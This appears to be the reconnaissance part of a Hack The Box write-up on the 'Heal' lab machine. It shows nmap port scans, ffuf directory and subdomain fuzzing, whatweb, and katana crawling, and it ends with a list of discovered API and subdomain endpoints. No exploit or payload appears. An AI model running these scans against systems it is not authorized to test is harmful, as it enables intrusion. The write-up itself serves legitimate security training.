Recon
┌──(oriol㉿zero)-[~/htb/heal]
└─$ nmap -p- --min-rate 10000 -T4 $target 1> ports.txt && echo "All discovered open ports:" && cat ports.txt && nmap -sC -sV -p$(tail -n +6 ports.txt | head -n -2 | cut -d ' ' -f 1 | cut -d '/' -f 1 | sed -z 's/\n/,/g') $target | tee nmap.txt
All discovered open ports:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-08 19:10 CEST
Nmap scan report for 10.10.11.46
Host is up (0.042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 6.94 seconds
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-08 19:10 CEST
Nmap scan report for 10.10.11.46
Host is up (0.041s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
|_ 256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.18 seconds
Only has ssh and http. It uses nginx version 1.18.0 as a web server.
The web returns a redirect to the domain heal.htb
|_http-title: Did not follow redirect to http://heal.htb/
So, let's add the heal.htb domain on the hosts file.
┌──(oriol㉿zero)-[~/htb/heal]
└─$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 zero
10.10.11.46 heal.htb www.heal.htb
Now, let's try to use nmap to identify the technologies that the web uses, the same could be done with whatweb
┌──(oriol㉿zero)-[~/htb/heal]
└─$ nmap -sC -sV -p 80 -Pn heal.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-08 19:20 CEST
Nmap scan report for heal.htb (10.10.11.46)
Host is up (0.041s latency).
PORT STATE SERVICE VERSION
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Heal
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.32 seconds
┌──(oriol㉿zero)-[~/htb/heal]
└─$ whatweb http://heal.htb
http://heal.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.46], Script, Title[Heal], X-Powered-By[Express], nginx[1.18.0]
Whatweb says it is powered by Express, which is a web framework for node.js, a part from that, no additional technologies detected.
Let's do some fuzzing.
First, web fuzzing:
┌──(oriol㉿zero)-[~/htb/heal]
└─$ ffuf -u http://heal.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 100
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://heal.htb/FUZZ
:: Wordlist : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
:: Follow redirects : true
:: Calibration : false
:: Timeout : 10
:: Threads : 100
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 1672, Words: 330, Lines: 43, Duration: 861ms]
# directory-list-2.3-medium.txt [Status: 200, Size: 1672, Words: 330, Lines: 43, Duration: 2091ms]
:: Progress: [220560/220560] :: Job [1/1] :: 221 req/sec :: Duration: [0:02:05] :: Errors: 0 ::
No luck... Now subdomain fuzzing:
┌──(oriol㉿zero)-[~/htb/heal]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.heal.htb" -u http://heal.htb/ -mc 200
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://heal.htb/
:: Wordlist : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
:: Header : Host: FUZZ.heal.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200
________________________________________________
api [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 71ms]
API [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 49ms]
:: Progress: [220560/220560] :: Job [1/1] :: 943 req/sec :: Duration: [0:04:22] :: Errors: 0 ::
api subdomain encountered
Let's do a web page fuzzing on the new api subdomain discovered (after adding it to the hosts file)
┌──(oriol㉿zero)-[~/htb/heal]
└─$ ffuf -u http://api.heal.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 100
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://api.heal.htb/FUZZ
:: Wordlist : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
:: Follow redirects : true
:: Calibration : false
:: Timeout : 10
:: Threads : 100
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
# directory-list-2.3-medium.txt [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 475ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 685ms]
# Copyright 2007 James Fisher [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 785ms]
# on atleast 2 different hosts [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 888ms]
# [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 985ms]
# [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 1092ms]
# Priority ordered case sensative list, where entries were found [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 1192ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 1293ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 1396ms]
# This work is licensed under the Creative Commons [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 1499ms]
[Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 1598ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 1803ms]
download [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 1903ms]
# [Status: 200, Size: 12515, Words: 469, Lines: 91, Duration: 2006ms]
:: Progress: [220560/220560] :: Job [1/1] :: 222 req/sec :: Duration: [0:02:10] :: Errors: 0 ::
When entering to the api subdomain, we can see that it uses Ruby On Rails and it's version

I will use katana to do some web scrapping, I feel that there is some more pages that the wordlist didn't cover
┌──(oriol㉿zero)-[~/htb/heal]
└─$ katana -u http://heal.htb
__ __
/ /_____ _/ /____ ____ ___ _
/ '_/ _ / __/ _ / _ \/ _ /
/_/\_\\_,_/\__/\_,_/_//_/\_,_/
projectdiscovery.io
[INF] Current katana version v1.1.2 (latest)
[INF] Started standard crawling for => http://heal.htb
http://heal.htb
http://heal.htb/static/js/main.chunk.js
http://heal.htb/static/js/bundle.js
http://heal.htb/manifest.json
http://heal.htb/static/js/0.chunk.js
There is a bunch of json I will retry a web scrapping, but this time with the -jc flag to also read the json and discover new endpoints.
┌──(oriol㉿zero)-[~/htb/heal]
└─$ katana -u http://heal.htb -jc
__ __
/ /_____ _/ /____ ____ ___ _
/ '_/ _ / __/ _ / _ \/ _ /
/_/\_\\_,_/\__/\_,_/_//_/\_,_/
projectdiscovery.io
[INF] Current katana version v1.1.2 (latest)
[INF] Started standard crawling for => http://heal.htb
http://heal.htb
http://heal.htb/static/js/bundle.js
http://heal.htb/static/js/main.chunk.js
http://heal.htb/static/js/0.chunk.js
http://heal.htb/manifest.json
http://heal.htb/buildin/global.js
http://heal.htb/
http://heal.htb/static/js/node_modules/url/node_modules/qs/lib/formats.js
http://heal.htb/static/js/node_modules/url/node_modules/qs/lib/parse.js
http://heal.htb/buildin/amd-options.js
http://heal.htb/static/js/node_modules/url/node_modules/qs/lib/index.js
http://heal.htb/buildin/module.js
http://heal.htb/static/js/node_modules/url/node_modules/qs/lib/utils.js
http://heal.htb/static/js/test/fixUrls.js
http://heal.htb/static/js/node_modules/url/node_modules/qs/lib/stringify.js
http://heal.htb/static/js/node_modules/style-loader/lib/urls.js
http://heal.htb/static/js/node_modules/sockjs-client/node_modules/debug/src/common.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/utils/browser-crypto.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/receiver/xhr.js
http://heal.htb/utils/browser
http://heal.htb/utils/random
http://heal.htb/utils/iframe
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/lib/polling.js
http://heal.htb/utils/object
http://heal.htb/static/iframe
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/lib/buffered-sender.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/sender/jsonp.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/receiver/jsonp.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/lib/sender-receiver.js
http://heal.htb/static/version
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/receiver/htmlfile.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/receiver/eventsource.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/lib/ajax-based.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/browser/websocket.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/browser/eventsource.js
http://heal.htb/utils/url
http://heal.htb/utils/event
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/browser/abstract-xhr.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/jsonp-polling.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/xdr-polling.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/xhr-polling.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/htmlfile.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/lib/iframe-wrap.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/eventsource.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/xdr-streaming.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/xhr-streaming.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/websocket.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/version.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/utils/log.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/utils/browser.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/utils/transport.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/utils/escape.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/utils/random.js
http://heal.htb/static/js/node_modules/url-parse/index.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/shims.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/sender/xhr-fake.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/sender/xhr-cors.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/sender/xdr.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/info-receiver.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/iframe.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/info-iframe.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport/sender/xhr-local.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/utils/object.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/info-ajax.js
http://heal.htb/static/js/node_modules/sockjs-client/node_modules/debug/src/browser.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/location.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/info-iframe-receiver.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/utils/event.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/utils/url.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/iframe-bootstrap.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/utils/iframe.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/facade.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/event/trans-message.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/event/eventtarget.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/event/emitter.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/event/event.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/event/close.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/main.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/transport-list.js
http://heal.htb/static/js/node_modules/side-channel/index.js
http://heal.htb/static/process/browser.js
http://heal.htb/static/js/node_modules/setimmediate/setImmediate.js
http://heal.htb/static/js/cjs/scheduler.development.js
http://heal.htb/static/js/node_modules/timers-browserify/main.js
http://heal.htb/timers-browserify/main.js
http://heal.htb/static/js/node_modules/scheduler/cjs/scheduler.development.js
http://heal.htb/static/js/node_modules/requires-port/index.js
http://heal.htb/static/js/cjs/react.development.js
http://heal.htb/static/js/node_modules/react/cjs/react.development.js
http://heal.htb/static/js/node_modules/react-router/dist/index.js
http://heal.htb/static/js/cjs/react-dom.development.js
http://heal.htb/static/js/node_modules/react-dom/index.js
http://heal.htb/static/js/node_modules/scheduler/index.js
http://heal.htb/static/js/node_modules/react-dom/cjs/react-dom.development.js
http://heal.htb/static/js/node_modules/react-error-overlay/lib/index.js
http://heal.htb/static/js/node_modules/url/url.js
http://heal.htb/static/js/node_modules/sockjs-client/lib/entry.js
http://heal.htb/static/js/node_modules/react-dev-utils/node_modules/strip-ansi/index.js
http://heal.htb/static/js/node_modules/react-dev-utils/node_modules/color-convert/route.js
http://heal.htb/static/js/node_modules/react-dev-utils/node_modules/color-name/index.js
http://heal.htb/static/js/node_modules/react-dev-utils/node_modules/color-convert/conversions.js
http://heal.htb/process/browser.js
http://heal.htb/static/js/node_modules/react-dev-utils/node_modules/chalk/templates.js
http://heal.htb/static/js/templates.js
http://heal.htb/static/js/node_modules/react-dev-utils/node_modules/supports-color/browser.js
http://heal.htb/static/js/node_modules/react-dev-utils/node_modules/color-convert/index.js
http://heal.htb/static/js/node_modules/react-dev-utils/node_modules/ansi-styles/index.js
http://heal.htb/static/js/node_modules/react-dev-utils/node_modules/ansi-regex/index.js
http://heal.htb/static/js/node_modules/react-dev-utils/launchEditorEndpoint.js
http://heal.htb/static/js/node_modules/react-dev-utils/node_modules/chalk/index.js
http://heal.htb/static/js/node_modules/react-dev-utils/formatWebpackMessages.js
http://heal.htb/static/js/node_modules/querystringify/index.js
http://heal.htb/static/js/node_modules/process/browser.js
http://heal.htb/static/js/node_modules/object-inspect/index.js
http://heal.htb/static/js/node_modules/node-libs-browser/node_modules/punycode/punycode.js
http://heal.htb/static/js/node_modules/ms/index.js
http://heal.htb/static/js/node_modules/webpack/buildin/module.js
http://heal.htb/webpack/buildin/module.js
http://heal.htb/static/js/node_modules/webpack/buildin/amd-options.js
http://heal.htb/static/js/node_modules/json3/lib/json3.js
http://heal.htb/static/js/node_modules/inherits/inherits_browser.js
http://heal.htb/static/js/node_modules/has-symbols/shams.js
http://heal.htb/static/js/node_modules/has-property-descriptors/index.js
http://heal.htb/static/js/node_modules/hasown/index.js
http://heal.htb/static/js/node_modules/has-proto/index.js
http://heal.htb/static/js/node_modules/has-symbols/index.js
http://heal.htb/static/js/node_modules/function-bind/implementation.js
http://heal.htb/static/js/node_modules/escape-string-regexp/index.js
http://heal.htb/static/js/node_modules/es-errors/uri.js
http://heal.htb/static/js/node_modules/es-errors/ref.js
http://heal.htb/static/js/node_modules/es-errors/range.js
http://heal.htb/static/js/node_modules/es-errors/index.js
http://heal.htb/static/js/node_modules/es-errors/eval.js
http://heal.htb/static/js/node_modules/gopd/index.js
http://heal.htb/static/js/node_modules/es-errors/syntax.js
http://heal.htb/static/js/node_modules/define-data-property/index.js
http://heal.htb/static/js/node_modules/es-define-property/index.js
http://heal.htb/static/js/node_modules/es-errors/type.js
http://heal.htb/static/js/node_modules/set-function-length/index.js
http://heal.htb/static/js/node_modules/function-bind/index.js
http://heal.htb/static/js/node_modules/call-bind/index.js
http://heal.htb/static/js/node_modules/get-intrinsic/index.js
http://heal.htb/static/js/node_modules/call-bind/callBound.js
http://heal.htb/static/webpack/buildin/global.js
http://heal.htb/static/js/node_modules/buffer/node_modules/isarray/index.js
http://heal.htb/static/js/node_modules/ieee754/index.js
http://heal.htb/static/js/node_modules/base64-js/index.js
http://heal.htb/static/js/node_modules/webpack/buildin/global.js
http://heal.htb/webpack/buildin/global.js
http://heal.htb/static/js/common/utils.js
http://heal.htb/static/js/node/index.js
http://heal.htb/static/js/node_modules/axios/lib/platform/common/utils.js
http://heal.htb/static/js/classes/Blob.js
http://heal.htb/static/js/classes/FormData.js
http://heal.htb/static/js/classes/URLSearchParams.js
http://heal.htb/static/js/node_modules/axios/lib/platform/browser/index.js
http://heal.htb/helpers/AxiosURLSearchParams.js
http://heal.htb/static/js/node_modules/axios/lib/platform/browser/classes/URLSearchParams.js
http://heal.htb/static/js/node_modules/axios/lib/platform/browser/classes/FormData.js
http://heal.htb/static/js/node_modules/axios/lib/platform/browser/classes/Blob.js
http://heal.htb/static/js/node_modules/buffer/index.js
http://heal.htb/buffer/index.js
http://heal.htb/static/js/buildURL.js
http://heal.htb/static/js/cookies.js
http://heal.htb/static/js/isURLSameOrigin.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/throttle.js
http://heal.htb/static/js/throttle.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/speedometer.js
http://heal.htb/static/js/speedometer.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/isURLSameOrigin.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/cookies.js
http://heal.htb/static/js/toFormData.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/AxiosURLSearchParams.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/toURLEncodedForm.js
http://heal.htb/static/js/transitional.js
http://heal.htb/static/js/AxiosError.js
http://heal.htb/static/js/node_modules/axios/lib/core/transformData.js
http://heal.htb/static/js/transformData.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/combineURLs.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/isAbsoluteURL.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/parseHeaders.js
http://heal.htb/static/js/AxiosHeaders.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/validator.js
http://heal.htb/static/js/node_modules/axios/lib/core/buildFullPath.js
http://heal.htb/static/js/buildFullPath.js
http://heal.htb/static/js/mergeConfig.js
http://heal.htb/static/js/node_modules/axios/lib/core/dispatchRequest.js
http://heal.htb/static/js/dispatchRequest.js
http://heal.htb/static/js/node_modules/axios/lib/core/InterceptorManager.js
http://heal.htb/static/js/InterceptorManager.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/buildURL.js
http://heal.htb/static/js/CanceledError.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/HttpStatusCode.js
http://heal.htb/static/js/helpers/HttpStatusCode.js
http://heal.htb/static/js/adapters/adapters.js
http://heal.htb/static/js/core/AxiosHeaders.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/isAxiosError.js
http://heal.htb/static/js/helpers/isAxiosError.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/spread.js
http://heal.htb/static/js/helpers/spread.js
http://heal.htb/static/js/core/AxiosError.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/toFormData.js
http://heal.htb/static/js/helpers/toFormData.js
http://heal.htb/static/js/node_modules/axios/lib/env/data.js
http://heal.htb/static/js/env/data.js
http://heal.htb/static/js/node_modules/axios/lib/cancel/isCancel.js
http://heal.htb/static/js/cancel/isCancel.js
http://heal.htb/static/js/node_modules/axios/lib/cancel/CancelToken.js
http://heal.htb/static/js/cancel/CancelToken.js
http://heal.htb/static/js/cancel/CanceledError.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/formDataToJSON.js
http://heal.htb/static/js/helpers/formDataToJSON.js
http://heal.htb/static/js/node_modules/axios/lib/defaults/index.js
http://heal.htb/static/js/defaults/index.js
http://heal.htb/static/js/node_modules/axios/lib/core/mergeConfig.js
http://heal.htb/static/js/core/mergeConfig.js
http://heal.htb/static/js/node_modules/axios/lib/core/Axios.js
http://heal.htb/static/js/core/Axios.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/bind.js
http://heal.htb/static/js/helpers/bind.js
http://heal.htb/static/js/utils.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/parseProtocol.js
http://heal.htb/static/js/node_modules/axios/lib/cancel/CanceledError.js
http://heal.htb/static/js/node_modules/axios/lib/defaults/transitional.js
http://heal.htb/static/js/node_modules/axios/lib/core/settle.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/resolveConfig.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/progressEventReducer.js
http://heal.htb/static/js/node_modules/axios/lib/core/AxiosHeaders.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/trackStream.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/composeSignals.js
http://heal.htb/static/js/node_modules/axios/lib/platform/index.js
http://heal.htb/static/js/node_modules/axios/lib/core/AxiosError.js
http://heal.htb/static/js/node_modules/axios/lib/adapters/fetch.js
http://heal.htb/static/js/fetch.js
http://heal.htb/static/js/node_modules/axios/lib/adapters/xhr.js
http://heal.htb/static/js/xhr.js
http://heal.htb/static/js/node_modules/axios/lib/helpers/null.js
http://heal.htb/static/js/http.js
http://heal.htb/static/js/node_modules/axios/lib/utils.js
http://heal.htb/static/js/node_modules/axios/lib/adapters/adapters.js
http://heal.htb/static/js/node_modules/axios/lib/axios.js
http://heal.htb/static/js/lib/axios.js
http://heal.htb/static/js/node_modules/@remix-run/router/dist/router.js
http://heal.htb/static/js/io.js
http://heal.htb/static/utils/browser
http://heal.htb/static/driver/xhr
http://heal.htb/static/js/form.action
http://heal.htb/iframe.html
http://heal.htb/static/utils/random
http://heal.htb/static/utils/event
http://heal.htb/static/utils/iframe
http://heal.htb/static/utils/url
http://heal.htb/static/js/options.action
http://heal.htb/static/js/ReactElement.js
http://heal.htb/static/js/ChangeEventPlugin.js
http://heal.htb/static/js/errorOverlayMiddleware.js
http://heal.htb/static/js/Punycode.js
http://heal.htb/static/js/node.js
http://heal.htb/static/js/Node.js
http://heal.htb/static/env/data.js
http://heal.htb/static/platform/node/classes/FormData.js
http://heal.htb/static/core/mergeConfig.js
http://heal.htb/static/core/buildFullPath.js
http://heal.htb/static/helpers/AxiosURLSearchParams.js
http://heal.htb/static/helpers/formDataToJSON.js
http://heal.htb/static/helpers/toURLEncodedForm.js
http://heal.htb/static/helpers/toFormData.js
http://heal.htb/static/adapters/adapters.js
http://heal.htb/static/defaults/index.js
http://heal.htb/static/cancel/isCancel.js
http://heal.htb/static/helpers/combineURLs.js
http://heal.htb/static/helpers/isAbsoluteURL.js
http://heal.htb/static/helpers/parseHeaders.js
http://heal.htb/static/helpers/validator.js
http://heal.htb/static/helpers/buildURL.js
http://heal.htb/static/helpers/parseProtocol.js
http://heal.htb/static/cancel/CanceledError.js
http://heal.htb/static/defaults/transitional.js
http://heal.htb/static/core/settle.js
http://heal.htb/static/helpers/resolveConfig.js
http://heal.htb/static/helpers/progressEventReducer.js
http://heal.htb/static/core/AxiosHeaders.js
http://heal.htb/static/helpers/trackStream.js
http://heal.htb/static/helpers/composeSignals.js
http://heal.htb/static/platform/index.js
http://heal.htb/static/core/AxiosError.js
http://heal.htb/static/utils.js
http://heal.htb/static/js/node_modules/react-dev-utils/webpackHotDevClient.js
http://heal.htb/static/js/node_modules/web-vitals/dist/web-vitals.js
http://heal.htb/static/js/src/reportWebVitals.js
http://heal.htb/static/js/node_modules/react-dom/client.js
http://heal.htb/static/js/src/index.js
http://heal.htb/static/js/index.css
http://heal.htb/static/js/TakeSurvey.css
http://api.heal.htb/download?filename=
http://heal.htb/static/js/ResumeForm.css
http://heal.htb/static/js/Profile.css
http://heal.htb/static/js/node_modules/axios/index.js
http://heal.htb/static/js/Home.css
http://heal.htb/static/js/src/components/Error.js
http://heal.htb/node_modules/style-loader/lib/addStyles.js
http://heal.htb/static/js/Error.css
http://heal.htb/node_modules/postcss-loader/src??postcss
http://heal.htb/node_modules/css-loader/dist/cjs.js??ref--6-oneOf-3-1
http://heal.htb/static/js/src/components/TakeSurvey.js
http://heal.htb/static/js/src/components/Profile.js
http://heal.htb/static/js/src/components/Home.js
http://heal.htb/static/js/node_modules/react-router-dom/dist/index.js
http://heal.htb/static/js/node_modules/react/index.js
http://heal.htb/static/js/src/App.js
http://heal.htb/static/js/node_modules/style-loader/lib/addStyles.js
http://heal.htb/static/js/App.css
http://heal.htb/static/node_modules/postcss-loader/src??postcss
http://heal.htb/static/node_modules/css-loader/dist/cjs.js??ref--6-oneOf-3-1
http://heal.htb/static/js/src/index.css
http://heal.htb/node_modules/css-loader/dist/cjs.js
http://heal.htb/static/js/src/components/TakeSurvey.css
http://heal.htb/static/js/src/components/ResumeForm.css
http://heal.htb/static/js/src/components/Profile.css
http://heal.htb/static/js/src/components/Home.css
http://heal.htb/node_modules/css-loader/dist/runtime/api.js
http://heal.htb/static/js/src/components/Error.css
http://heal.htb/static/js/node_modules/css-loader/dist/runtime/api.js
http://take-survey.heal.htb/index.php/552933?lang=en
http://heal.htb/static/js/src/App.css
http://heal.htb/static/js/node_modules/postcss-loader/src/index.js
http://heal.htb/static/node_modules/css-loader/dist/cjs.js
http://heal.htb/static/js/node_modules/css-loader/dist/cjs.js
http://heal.htb/home/ralph/resume-builder/node_modules/react-dev-utils/webpackHotDevClient.js
http://heal.htb/home/ralph/resume-builder/src/index.js
http://heal.htb/home/ralph/resume-builder/src/components/TakeSurvey.js
http://api.heal.htb/exports
http://heal.htb/static/js/src/components/ResumeForm.js
http://api.heal.htb/resume
http://heal.htb/home/ralph/resume-builder/src/components/ResumeForm.js
http://api.heal.htb/logout
http://api.heal.htb/profile
http://heal.htb/home/ralph/resume-builder/src/components/Profile.js
http://api.heal.htb/signin
http://api.heal.htb/signup
http://heal.htb/home/ralph/resume-builder/src/components/Home.js
http://heal.htb/home/ralph/resume-builder/src/components/Error.js
http://heal.htb/home/ralph/resume-builder/src/App.js
http://heal.htb/static/node_modules/style-loader/lib/addStyles.js
http://heal.htb/static/node_modules/css-loader/dist/runtime/api.js
Yes! It also returned the api endpoints also! This are some interesting endpoints the crawler discovered:
- http://heal.htb/static
- http://heal.htb/building
- http://heal.htb/utils
- http://heal.htb/timers-browserify
- http://heal.htb/process
- http://heal.htb/webpack
- http://heal.htb/helpers
- http://heal.htb/buffer
- http://api.heal.htb/download?filename=
- http://take-survey.heal.htb/index.php/552933?lang=en
- http://heal.htb/home/ralph/resume-builder/src/index.js
- http://api.heal.htb/signin
- http://api.heal.htb/signup
